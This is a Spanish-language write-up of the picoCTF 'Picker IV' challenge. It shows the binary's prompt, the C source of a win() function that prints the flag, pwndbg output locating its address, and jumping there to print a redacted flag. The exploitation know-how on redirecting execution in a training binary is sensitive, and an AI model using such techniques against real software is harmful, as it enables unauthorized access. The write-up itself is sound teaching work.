 # Picker IV

En este ejercicio nos dan un binario junto con su código en C.

Si ejecutamos el binario, podemos ver que nos pide una dirección en hexadecimal a la que saltar:

```c
./picker-IV         
Enter the address in hex to jump to, excluding '0x': 0x0000000000
You input 0x0
Segfault triggered! Exiting.
```

Vamos a asumir que ASLR está desactivado en la máquina víctima y también vamos a desactivarlo en nuestra máquina.

Como ahora las direcciones deberían ser las mismas todo el tiempo, y dado que PIE no está activado, podemos simplemente ver si hay alguna función interesante a la que podamos saltar.

Al revisar el código fuente, observamos la siguiente función:

```c
int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}
```

Esta es la clásica función `win` que imprime la flag, así que vamos a intentar descubrir cuál es su dirección:

```c
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x00000000004010e0  putchar@plt
0x00000000004010f0  puts@plt
0x0000000000401100  fclose@plt
0x0000000000401110  printf@plt
0x0000000000401120  fgetc@plt
0x0000000000401130  signal@plt
0x0000000000401140  setvbuf@plt
0x0000000000401150  fopen@plt
0x0000000000401160  __isoc99_scanf@plt
0x0000000000401170  exit@plt
0x0000000000401180  sleep@plt
0x0000000000401190  _start
0x00000000004011c0  _dl_relocate_static_pie
0x00000000004011d0  deregister_tm_clones
0x0000000000401200  register_tm_clones
0x0000000000401240  __do_global_dtors_aux
0x0000000000401270  frame_dummy
0x0000000000401276  print_segf_message
0x000000000040129e  win // Aquí
0x0000000000401334  main
0x00000000004013d0  __libc_csu_init
0x0000000000401440  __libc_csu_fini
0x0000000000401448  _fini
```

Ahora que sabemos la dirección, vamos a enviársela al programa para ver si salta correctamente a `win`:

```c
Enter the address in hex to jump to, excluding '0x': 0x000000000040129e
You input 0x40129e
You won!
picoCTF{SECRETO}
```

¡Listo!
